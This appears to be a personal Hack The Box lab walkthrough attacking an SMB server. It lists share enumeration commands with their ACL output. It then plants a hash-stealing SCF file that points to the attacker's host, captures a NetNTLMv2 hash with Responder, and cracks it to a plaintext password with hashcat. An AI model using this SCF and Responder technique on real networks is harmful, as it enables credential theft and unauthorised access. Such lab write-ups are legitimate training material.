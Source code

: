 ### SMB

Good article related to SMB shares, Users folder has Public user folder has full control permission

[https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

```markdown
>smbmap -H 10.10.10.103
>smbmap -H 10.10.10.103 -u null -p null (NO information)
>smbclient -N -L //10.10.10.103 
>smbclient -N  //10.10.10.103/Operations (Access denied)
>smbclient -N  '//10.10.10.103/Department Shares' (Many files are their)
##Monted locally using below command
>sudo mount -t cifs '//10.10.10.103/Department Shares' /mnt
> cd /mnt
mnt>ls users
mnt>for i in $(ls); do echo $i; done (It will list one by one)
mnt>smbcacls -N '//10.10.10.103/Department Shares' /Users
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/0x0/READ
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
#Output end
>for i in $(ls); do echo $i; smbcacls -N '//10.10.10.103/Department Shares' $i; done 
>xxd * | grep -v '0000 0000 0000 0000 0000 0000 0000 0000' (Make the for loop)
>└─$ smbcacls -N '//10.10.10.103/Department Shares' Users/Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
#Output end
/Desktop/HTB/Sizzle>cat stealhash.scf 
[Shell]
Command=2
IconFile=\\10.10.14.29\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
#Other Terminal 
>sudo responder -I tun0 -v
>sudo cp stealhash.scf /mnt/Users/Public
# I got the Amanda Hash
amanda::HTB:e76240741c815a33:DD0161BDD949F0DB0ABE10458F1C83F6:0101000000000000004BA7251CD
6DA01E6145E63B0233F7A0000000002000800330050003800580001001E00570049004E002D00540042003900
58004F004B004B0057004B0059004A0004003400570049004E002D0054004200390058004F004B004B0057004
B0059004A002E0033005000380058002E004C004F00430041004C000300140033005000380058002E004C004F
00430041004C000500140033005000380058002E004C004F00430041004C0007000800004BA7251CD6DA01060
00400020000000800300030000000000000000100000000200000284F2DEAEECC4EE32887E1EA59C13A788070
88DEED1D29CDA34705EFEBB1B5D20A00100000000000000000000000000000000000090020006300690066007
3002F00310030002E00310030002E00310034002E0032003900000000000000000000000000
>hashcat -m 5600 amanda_ntlm.hash rockyou.txt (amanda/Ashare1972)
#SCF FIle on Users/Public -> NetNTKMv2 -> Cracked
>smbmap -u amanda -d htb.local -p 'Ashare1972' -H 10.10.10.103
#User is not admin not trying winexec tool
```
